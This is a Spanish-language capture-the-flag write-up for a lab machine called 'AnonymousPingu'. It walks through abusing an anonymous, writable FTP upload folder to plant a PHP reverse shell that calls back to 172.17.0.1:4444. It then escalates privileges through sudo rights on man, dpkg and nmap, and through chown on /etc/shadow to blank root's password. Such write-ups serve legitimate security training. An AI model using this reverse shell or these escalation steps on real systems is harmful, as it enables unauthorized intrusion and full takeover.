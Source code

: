 ```yaml
---
description: '🧠Dificultad: Fácil | 🔓31/08/2025'
---
```


# AnonymousPingu

## 🕵️ Reconocimiento

El escaneo de puertos nos dice que hay un servicio FTP con login anónimo, y un servicio HTTP :

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

En el servicio FTP se encuentran los archivos utilizados para el servicio web. La carpeta `upload` está habilitada para subir contenido. Además, si accedemos a este directorio desde el servicio web, nos encontramos con un `directory indexing`.

<div align="left"><figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure></div>

## 🚪 Ganando acceso

Probamos a subir una reverse shell en PHP a la carpeta `upload` por FTP.

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'"); ?>
```

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

## 💥 Escalando privilegios

Si comprobamos los permisos que tenemos con `sudo`, vemos que podemos ejecutar el binario `man` como `pingu` sin necesidad de contraseña.

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

En [gtfobins](https://gtfobins.github.io/gtfobins/man/) vemos que podemos explotar esta configuración para obtener una shell con el usuario `pingu`. Antes de mostrar la explotación de esta configuración, cabe destacar que es necesario mejorar la shell con los siguientes comandos:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Suspendemos la terminal con CTRL + Z
stty raw -echo; fg
reset
```

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Del mismo modo, con `sudo -l` vemos que podemos ejecutar el binario `dpkg` y `nmap` como `gladys` sin contraseña. Usamos el exploit de gtfobins:

<figure><img src="../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Una vez dentro como gladys, vemos de nuevo que tenemos permisos para ejecutar como `root` el binario `chown` . Esto nos hace poder cambiar el propietario y grupo del fichero que queramos. Si nos hacemos dueños del fichero `/etc/shadow`, podemos mirar posibles contraseñas o escribirlas:

<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

Modificando el fichero, podemos dejar sin contraseña al usuario `root`.

<div align="left"><figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure></div>
